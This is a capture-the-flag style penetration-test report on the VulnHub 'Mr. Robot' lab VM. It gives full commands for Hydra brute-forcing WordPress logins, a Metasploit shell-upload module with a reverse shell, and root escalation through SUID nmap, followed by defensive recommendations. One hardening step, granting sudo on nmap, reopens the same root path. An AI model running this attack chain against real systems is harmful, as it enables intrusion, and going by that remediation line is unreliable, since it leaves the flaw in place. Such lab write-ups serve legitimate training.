

![[Pasted image 20250401174904.png]]
## Executive Summary

This comprehensive penetration testing report documents the assessment conducted on the "Mr. Robot" virtual machine from VulnHub. The engagement successfully identified and exploited multiple critical and high-severity vulnerabilities, resulting in complete system compromise and privilege escalation to root access. All three hidden keys were discovered, demonstrating the successful completion of the challenge objectives.

The assessment revealed several significant security weaknesses including information disclosure via robots.txt, weak authentication mechanisms in WordPress, insecure file permissions, and SUID binary misconfigurations that allowed for privilege escalation. These findings represent common security issues that could lead to unauthorized access and data compromise in production environments.

## Assessment Details

- **Target**: Mr. Robot VM (VulnHub)
- **Target IP Address**: 192.168.1.56
- **Assessment Period**: July 20-21, 2020
- **Difficulty Level**: Beginner-Intermediate
- **Testing Environment**: Kali Linux 2020.2 (VM) & Windows 10 (Host)
- **VM Source**: [https://www.vulnhub.com/entry/mr-robot-1,151/](https://www.vulnhub.com/entry/mr-robot-1,151/)


## Methodology

The assessment followed the industry-standard penetration testing methodology:

### 1. Reconnaissance

- Network discovery to identify the target system
- Initial footprinting to gather basic information
### 2. Information Gathering

- Port scanning to identify open ports and services
- Service enumeration to identify running applications
- Web application analysis to identify potential entry points
- Directory and file enumeration to discover hidden resources
### 3. Vulnerability Assessment

- Identification of potential vulnerabilities
- Analysis of discovered vulnerabilities
- Prioritization based on exploitability and impact
### 4. Exploitation

- Development of exploitation strategies
- Execution of exploitation techniques
- Validation of successful exploitation
### 5. Post-Exploitation

- Privilege escalation attempts
- Lateral movement within the system
- Data collection and exfiltration testing
### 6. Documentation

- Detailed documentation of findings
- Evidence collection and preservation
- Recommendation development
## Detailed Findings

## Phase 1: Reconnaissance

### Network Discovery

The target VM was identified on the local network using standard network scanning techniques. The VM obtained its IP address via DHCP, which was determined to be 192.168.1.56.

### Port Scanning

A comprehensive port scan was conducted using Nmap to identify open ports and running services:

**Command executed:**

```bash
nmap -sV -sC 192.168.1.56
```

**Scan results:**

![[Pasted image 20250401174931.png]]

**Detailed findings:**

- **Port 22/TCP**: OpenSSH service (version not disclosed)
- **Port 80/TCP**: Apache HTTP server
- HTTP title: "Site doesn't have a title"
- Server header: Apache
- **Port 443/TCP**: Apache HTTPS server
- HTTP title: "Site doesn't have a title"
- Server header: Apache
- SSL Certificate: Subject CommonName=[www.example.com](http://www.example.com)
- SSL Certificate validity: 2015-09-16T10:45:03 to 2025-09-13T10:45:03
- **MAC Address**: 08:00:27:04:32:B8 (Oracle VirtualBox virtual NIC)

**Analysis:**
The target system is running a web server on both HTTP and HTTPS ports, which presents potential attack vectors through web application vulnerabilities. The SSH service could potentially be used for remote access if credentials are obtained. The SSL certificate appears to be using default values, suggesting the web server might not be properly configured for production use.

## Phase 2: Information Gathering

### Web Application Analysis

Initial access to the web server on port 80 revealed a themed interface based on the Mr. Robot TV series:

![[Pasted image 20250401174951.png]]

The web interface presented an interactive terminal-like experience with several commands available:

- prepare
- fsociety
- inform
- question
- wakeup
- join


Testing these commands revealed they were primarily for aesthetic purposes, displaying videos and themed content related to the TV show. No immediate vulnerabilities were identified in this interface.

### Discovery of robots.txt

Following standard web application enumeration procedures, the robots.txt file was examined:

![[Pasted image 20250401175005.png]]

**Key discoveries:**

1. **key-1-of-3.txt**: Direct reference to the first key
2. **fsocity.dic**: A dictionary file, potentially useful for brute force attacks


**First key acquisition:**
The first key was obtained by directly accessing the key-1-of-3.txt file referenced in robots.txt.

### Dictionary File Analysis

The fsocity.dic file was downloaded for further analysis:

**Command executed:**

```bash
wget http://192.168.1.56/fsocity.dic
```

**Download results:**

![[Pasted image 20250401175019.png]]

Initial examination of the file revealed it to be a wordlist:

**Command executed:**

```bash
head fsocity.dic
```

**File contents preview:**

![[Pasted image 20250401175028.png]]

**Wordlist optimization:**
Analysis of the wordlist revealed numerous duplicate entries. To optimize for potential brute force attacks, duplicates were removed:

**Commands executed:**

```bash
wc -l fsocity.dic
# Result: 858160 words

sort fsocity.dic | uniq | wc -l
# Result: 11451 unique words

sort fsocity.dic | uniq > fsocity_filtered.dic
```

**Analysis:**
The significant reduction in wordlist size (from 858,160 to 11,451 entries) would dramatically improve the efficiency of any brute force attacks, reducing the time required by approximately 98.7%.

### Directory Enumeration

Directory enumeration was performed using Dirbuster with the default wordlist:

**Key discovery:**

- **/wp-admin/**: WordPress administration panel

### WordPress Identification

The discovery of the wp-admin directory confirmed the presence of a WordPress installation:

![[Pasted image 20250401175042.png]]

Further analysis using the Wappalyzer browser extension provided detailed information about the web application stack:

![[Pasted image 20250401175053.png]]

**Detailed technology stack:**

- **CMS**: WordPress 5.4.2
- **Web Server**: Apache
- **Programming Language**: PHP 7.3
- **Database**: MySQL
- **JavaScript Libraries**: Various
- **Analytics**: Google Analytics, WP-Statistics 12.6.13
- **SEO**: Yoast SEO 14.3
- **Miscellaneous**: Twitter Emoji, Gravatar

**Analysis:**
The WordPress installation provides multiple potential attack vectors, including:

- Authentication bypass
- Credential brute forcing
- Plugin vulnerabilities
- Theme vulnerabilities
- Core WordPress vulnerabilities specific to version 5.4.2

## Phase 3: Exploitation

### WordPress Username Enumeration

The WordPress login form was analyzed for security vulnerabilities. Testing revealed a critical information disclosure vulnerability in the error messages:

**Behavior observed:**

- When an invalid username was submitted: "ERROR: Invalid username. Lost your password?"
- When a valid username with incorrect password was submitted: "ERROR: The password you entered for the username [username] is incorrect."


This difference in error messages allows an attacker to enumerate valid usernames on the system.

### Login Request Analysis

To prepare for automated brute force attacks, the WordPress login request structure was analyzed using Burp Suite as a proxy:

![[Pasted image 20250401175108.png]]

**Request details:**

- **Method**: POST
- **Target**: /wp-login.php
- **Content-Type**: application/x-www-form-urlencoded
- **Key parameters**:

- `log`: Username field
- `pwd`: Password field
- `wp-submit`: Form submission identifier

### Credential Brute Force

Based on the request analysis and username enumeration vulnerability, the Hydra tool was used to automate the brute force process:

**Step 1: Username enumeration**
**Command executed:**

```bash
hydra -L fsocity_filtered.dic -p something 192.168.1.56 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

**Execution results:**

![[Pasted image 20250401175121.png]]

**Valid username discovered:** `elliot`

**Step 2: Password brute force**
**Command executed:**

```bash
hydra -l elliot -P fsocity_filtered.dic 192.168.1.56 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```

**Execution results:**

![[Pasted image 20250401175132.png]]

**Valid credentials discovered:**

- **Username**: `elliot`
- **Password**: `ER28-0652`


**Analysis:**
The successful brute force attack yielded valid administrator credentials for the WordPress installation. The reference to "ER28-0652" is notable as it appears to be a reference to the Mr. Robot TV series, demonstrating how themed or contextual passwords can sometimes be predictable.

### WordPress Admin Access

Using the discovered credentials, access to the WordPress admin panel was obtained. Exploration of the WordPress dashboard revealed:

- WordPress version 5.4.2
- Limited content (no posts or pages)
- One additional user: mich05654 (non-administrator)
- Full administrative privileges for the elliot user


### WordPress Shell Upload

To establish a persistent foothold on the system, Metasploit was used to upload a malicious WordPress plugin:

**Commands executed:**

```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 192.168.1.56
set USERNAME elliot
set PASSWORD ER28-0652
set wpcheck false
exploit
```

**Execution results:**

![[Pasted image 20250401175144.png]]

**Key events:**

1. Reverse TCP handler started on attacker machine (192.168.1.15:4444)
2. Authentication to WordPress using elliot:ER28-0652
3. Malicious plugin uploaded to /wp-content/plugins/FzjbyIiJKK/xKPIqAnqvw.php
4. Meterpreter session established


**Analysis:**
The successful exploitation provided a Meterpreter session on the target system, allowing for further post-exploitation activities. The wp_admin_shell_upload module leverages the WordPress plugin upload functionality to deploy a malicious PHP file that establishes a reverse shell connection.

## Phase 4: Post-Exploitation

### System Exploration

Using the established Meterpreter session, the target system was explored to identify sensitive information and potential privilege escalation vectors:

**Command executed in Meterpreter:**

```bash
shell
```

A Python one-liner was used to spawn a fully interactive TTY shell:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

### User Account Discovery

Exploration of the /home directory revealed a user account named 'robot'. In this user's home directory (/home/robot), two critical files were discovered:

- **key-2-of-3.txt**: The second key file
- **password.raw-md5**: A file containing an MD5 password hash


**File permissions analysis:**

- key-2-of-3.txt: Readable only by the 'robot' user
- password.raw-md5: World-readable


**Contents of password.raw-md5:**

```plaintext
robot:c3fcd3d76192e4007dfb496cca67e13b
```

### Password Hash Cracking

The discovered MD5 hash was submitted to an online cracking service (Crackstation) for analysis:

![[Pasted image 20250401175207.png]]

**Cracked password:** `abcdefghijklmnopqrstuvwxyz`

**Analysis:**
The password is a simple alphabetic sequence, demonstrating poor password security practices. The use of MD5 for password hashing is also concerning, as MD5 is considered cryptographically broken and unsuitable for secure password storage.

### Lateral Movement

Using the cracked password, lateral movement to the 'robot' user account was performed:

**Commands executed:**

```bash
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

**Execution results:**

![[Pasted image 20250401175215.png]]

**Second key acquisition:**
After successfully switching to the 'robot' user, the second key was accessed from key-2-of-3.txt.

### Privilege Escalation Enumeration

To identify potential privilege escalation vectors, SUID binaries were enumerated:

**Command executed:**

```bash
find / -perm -4000 -type f 2>/dev/null
```

**Execution results:**

![[Pasted image 20250401175244.png]]

**SUID binaries identified:**

- **/bin/ping**
- **/bin/umount**
- **/bin/mount**
- **/bin/ping6**
- **/bin/su**
- **/usr/bin/passwd**
- **/usr/bin/newgrp**
- **/usr/bin/chsh**
- **/usr/bin/chfn**
- **/usr/bin/gpasswd**
- **/usr/bin/sudo**
- **/usr/local/bin/nmap**
- **/usr/lib/openssh/ssh-keysign**
- **/usr/lib/eject/dmcrypt-get-device**
- **/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper**
- **/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper**
- **/usr/lib/pt_chown**


**Analysis:**
The presence of /usr/local/bin/nmap with the SUID bit set is particularly noteworthy. Nmap is a network scanning tool that is not typically configured with SUID permissions. This misconfiguration presents a potential privilege escalation vector, as older versions of Nmap include an interactive mode that can execute shell commands as the owner of the binary (root).

### Privilege Escalation via Nmap

The Nmap SUID binary was leveraged to escalate privileges to root:

**Commands executed:**

```bash
nmap --interactive
```

**Execution results:**

![[Pasted image 20250401175257.png]]

Once in interactive mode, shell commands could be executed with root privileges using the '!' prefix:

**Commands executed in nmap interactive mode:**

```bash
!ls /root
!cat /root/key-3-of-3.txt
```

**Execution results:**

![[Pasted image 20250401175312.png]]

**Third key acquisition:**
The third and final key was successfully retrieved from /root/key-3-of-3.txt with the value: `04787ddef27c3dee1ee161b21670b4e4`

**Analysis:**
The privilege escalation was successful due to the misconfiguration of the Nmap binary with SUID permissions. This allowed execution of commands with root privileges, effectively bypassing all system access controls.

## Discovered Keys Summary

| Key   | Location                   | Method of Discovery                | Value/Hash                       |
| ----- | -------------------------- | ---------------------------------- | -------------------------------- |
| Key 1 | /key-1-of-3.txt            | Direct access via robots.txt       | [Redacted for report]            |
| Key 2 | /home/robot/key-2-of-3.txt | Lateral movement to robot user     | [Redacted for report]            |
| Key 3 | /root/key-3-of-3.txt       | Privilege escalation via SUID nmap | 04787ddef27c3dee1ee161b21670b4e4 |
## Attack Timeline

| Timestamp                | Activity              | Description                                  |
| ------------------------ | --------------------- | -------------------------------------------- |
| 2020-07-20 17:24:24 CEST | Reconnaissance        | Initial Nmap scan of target system           |
| 2020-07-20 17:30:00 CEST | Information Gathering | Web server analysis and robots.txt discovery |
| 2020-07-20 17:43:04 CEST | Information Gathering | Download of fsocity.dic wordlist             |
| 2020-07-20 17:50:00 CEST | Information Gathering | WordPress installation discovery             |
| 2020-07-21 14:14:36 CEST | Exploitation          | Username enumeration via Hydra               |
| 2020-07-21 14:22:37 CEST | Exploitation          | Password brute force via Hydra               |
| 2020-07-21 14:30:00 CEST | Exploitation          | WordPress admin panel access                 |
| 2020-07-21 14:44:31 CEST | Exploitation          | Malicious plugin upload via Metasploit       |
| 2020-07-21 14:50:00 CEST | Post-Exploitation     | Discovery of robot user and MD5 hash         |
| 2020-07-21 15:00:00 CEST | Post-Exploitation     | Hash cracking and lateral movement           |
| 2020-07-21 15:10:00 CEST | Privilege Escalation  | SUID binary enumeration                      |
| 2020-07-21 15:15:00 CEST | Privilege Escalation  | Root access via nmap SUID                    |
| 2020-07-21 15:20:00 CEST | Completion            | All three keys discovered                    |


## Attack Path Visualization



## Comprehensive Vulnerability Assessment

### 1. Information Disclosure via robots.txt

**Vulnerability Details:**

- **Description**: The robots.txt file exposed sensitive information including a direct path to the first key and a dictionary file.
- **CVSS 3.1 Score**: 5.3 (Medium)
- **Vector String**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N
- **CWE Classification**: CWE-200: Exposure of Sensitive Information to an Unauthorized Actor


**Impact:**

- Direct exposure of the first challenge key
- Provision of a wordlist that facilitated brute force attacks
- Disclosure of site structure and potentially sensitive directories


**Root Cause:**
The robots.txt file was improperly configured to include sensitive files and directories that should not be publicly accessible or indexed by search engines.

### 2. WordPress Username Enumeration

**Vulnerability Details:**

- **Description**: The WordPress login form returned different error messages for invalid usernames versus valid usernames with incorrect passwords.
- **CVSS 3.1 Score**: 5.3 (Medium)
- **Vector String**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N
- **CWE Classification**: CWE-203: Observable Discrepancy


**Impact:**

- Allowed enumeration of valid usernames on the system
- Facilitated targeted brute force attacks
- Reduced the complexity of credential guessing attacks


**Root Cause:**
The WordPress installation was configured with verbose error messages that disclosed whether a username existed in the system, violating the principle of minimal information disclosure.

### 3. Weak Password Policy

**Vulnerability Details:**

- **Description**: The administrator account used a guessable password that was included in the provided wordlist.
- **CVSS 3.1 Score**: 7.5 (High)
- **Vector String**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CWE Classification**: CWE-521: Weak Password Requirements


**Impact:**

- Allowed unauthorized access to the WordPress administrator account
- Enabled complete control over the WordPress installation
- Facilitated further exploitation of the system


**Root Cause:**
Insufficient password complexity requirements and lack of brute force protection mechanisms allowed a dictionary attack to succeed.

### 4. Insecure Password Storage

**Vulnerability Details:**

- **Description**: The password for the 'robot' user was stored as an MD5 hash in a world-readable file.
- **CVSS 3.1 Score**: 7.5 (High)
- **Vector String**: CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
- **CWE Classification**: CWE-916: Use of Password Hash With Insufficient Computational Effort


**Impact:**

- Exposed user credentials to any user with shell access
- Allowed lateral movement to the 'robot' user account
- Facilitated access to the second key


**Root Cause:**
Multiple security failures including:

- Use of a cryptographically weak hashing algorithm (MD5)
- Improper file permissions allowing world-readable access
- Storage of password hashes outside of the system's secure password database


### 5. SUID Binary Misconfiguration

**Vulnerability Details:**

- **Description**: The nmap binary was configured with the SUID bit set, allowing execution with root privileges.
- **CVSS 3.1 Score**: 8.8 (High)
- **Vector String**: CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H
- **CWE Classification**: CWE-250: Execution with Unnecessary Privileges


**Impact:**

- Allowed privilege escalation to root
- Bypassed all system access controls
- Enabled access to the third key and complete system compromise


**Root Cause:**
Improper configuration of file permissions, specifically setting the SUID bit on a binary (nmap) that provides interactive command execution capabilities.

## Detailed Recommendations

### 1. Web Server Security Hardening

**Immediate Actions:**

- Remove sensitive information from robots.txt
- Implement proper directory access controls
- Configure web server to deny access to sensitive files


**Technical Implementation:**

```php
# Apache configuration to protect sensitive files
<FilesMatch "^(key-.*\.txt|.*\.dic)$">
    Order allow,deny
    Deny from all
</FilesMatch>

# Restrict access to sensitive directories
<Directory "/var/www/html/wp-admin">
    AuthType Basic
    AuthName "Restricted Area"
    AuthUserFile /etc/apache2/.htpasswd
    Require valid-user
</Directory>
```

**Long-term Recommendations:**

- Implement a Web Application Firewall (WAF)
- Conduct regular web application security scans
- Develop and enforce a secure content management policy


### 2. WordPress Security Enhancements

**Immediate Actions:**

- Update WordPress to the latest version
- Implement a security plugin (e.g., Wordfence, Sucuri)
- Disable XML-RPC if not required
- Modify login error messages to prevent username enumeration


**Technical Implementation:**

```php
// Add to functions.php to prevent username enumeration
function custom_login_error() {
    return 'Invalid login credentials.';
}
add_filter('login_errors', 'custom_login_error');

// Disable XML-RPC
add_filter('xmlrpc_enabled', '__return_false');

// Limit login attempts
function limit_login_attempts() {
    // Implementation details
}
```

**Long-term Recommendations:**

- Implement two-factor authentication
- Regular security audits of WordPress installation
- Develop a plugin and theme update policy
- Consider a managed WordPress hosting solution with security features


### 3. Authentication Security

**Immediate Actions:**

- Implement strong password policies
- Enable account lockout after failed attempts
- Remove any plaintext or weakly hashed password storage
- Restrict access to password files


**Technical Implementation:**

```bash
# PAM configuration for password complexity
# Add to /etc/pam.d/common-password
password requisite pam_pwquality.so retry=3 minlen=12 difok=3 ucredit=-1 lcredit=-1 dcredit=-1 ocredit=-1

# Secure password storage permissions
chmod 600 /etc/shadow
```

**Long-term Recommendations:**

- Implement a centralized authentication system
- Regular password auditing and rotation
- User security awareness training
- Consider passwordless authentication methods where appropriate


### 4. File Permission Management

**Immediate Actions:**

- Audit and correct file permissions across the system
- Ensure sensitive files are only accessible to appropriate users
- Implement proper umask settings for new files


**Technical Implementation:**

```bash
# Find world-readable files in sensitive directories
find /home -type f -perm -004 -ls

# Correct permissions on sensitive files
chmod 600 /home/*/password*
chmod 750 /home/*

# Set secure default umask
echo "umask 027" >> /etc/profile
```

**Long-term Recommendations:**

- Implement a file integrity monitoring system
- Regular permission audits
- Automated remediation of permission issues
- Consider mandatory access control systems (SELinux/AppArmor)


### 5. Privilege Management

**Immediate Actions:**

- Remove unnecessary SUID/SGID bits from binaries
- Implement the principle of least privilege
- Configure sudo with specific command restrictions


**Technical Implementation:**

```bash
# Find and review all SUID binaries
find / -perm -4000 -type f -exec ls -la {} \;

# Remove SUID bit from nmap
chmod u-s /usr/local/bin/nmap

# Configure specific sudo permissions instead
echo "robot ALL=(root) /usr/local/bin/nmap" > /etc/sudoers.d/robot
```

**Long-term Recommendations:**

- Implement a privileged access management solution
- Regular auditing of privileged commands and users
- Consider containerization to isolate applications
- Implement just-in-time privilege elevation with logging

### 6. System Monitoring and Logging

**Immediate Actions:**

- Enable comprehensive system logging
- Implement log rotation and retention policies
- Configure alerts for suspicious activities


**Technical Implementation:**

```bash
# Configure auditd for privilege escalation monitoring
apt install auditd
cat << EOF > /etc/audit/rules.d/privilege-escalation.rules
-a always,exit -F arch=b64 -S execve -C uid!=euid -F euid=0 -k setuid
-a always,exit -F arch=b32 -S execve -C uid!=euid -F euid=0 -k setuid
EOF
service auditd restart
```

**Long-term Recommendations:**

- Implement a SIEM solution
- Develop comprehensive monitoring dashboards
- Configure correlation rules for attack detection
- Consider user behavior analytics
## Conclusion

The penetration test of the Mr. Robot VM revealed multiple critical security vulnerabilities that allowed for complete system compromise. The attack chain progressed from initial information disclosure through the robots.txt file, to WordPress credential brute forcing, lateral movement via insecure password storage, and finally privilege escalation through a misconfigured SUID binary.

All three challenge keys were successfully retrieved, demonstrating the effectiveness of the exploitation techniques employed. The vulnerabilities identified represent common security issues found in real-world environments, highlighting the importance of proper security configurations, regular updates, and adherence to security best practices.

The recommendations provided in this report address the specific vulnerabilities discovered and provide a roadmap for improving the overall security posture of similar systems. Implementation of these recommendations would significantly reduce the risk of successful exploitation through the attack vectors identified during this assessment.

### Key Takeaways

1. Information disclosure can provide attackers with valuable intelligence for further attacks
2. Web applications, particularly content management systems, require regular security maintenance
3. Password policies and secure storage are critical to preventing unauthorized access
4. File permissions, particularly SUID binaries, require careful management to prevent privilege escalation
5. Defense in depth is essential - multiple security controls working together provide the best protection

This penetration test demonstrates how a series of seemingly minor vulnerabilities can be chained together to achieve complete system compromise, emphasizing the importance of a comprehensive security program that addresses vulnerabilities at all levels of the technology stack.